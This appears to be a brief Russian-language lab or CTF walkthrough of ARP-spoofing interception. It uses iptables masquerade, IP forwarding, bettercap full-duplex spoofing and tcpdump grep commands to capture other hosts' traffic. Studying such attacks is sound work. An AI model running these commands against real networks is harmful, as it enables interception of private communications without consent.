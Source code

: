  Для начала настроим masquerade:

```bash
sudo iptables -t nat -A POSTROUTING -o ethX -j MASQUERADE
```

и убедимся, что включен ipv4 forwarding:

```bash
sudo sysctl -w net.ipv4.ip_forward=1
```
запускаем
```
bettercap eth0
```
настраиваем для атаки на цели и шлюз
```
set arp.spoof.fullduplex true
``` 
запускаем 
```
arp.spoof on 
```
и он должен определить все машины в сети (endpoint)
Затем запускаем 
``` 
tcpdump -i eth0 -A | grep "cybered"
```
 где -A выводит содержимое пакетов и с помощью grep уберем лишние данные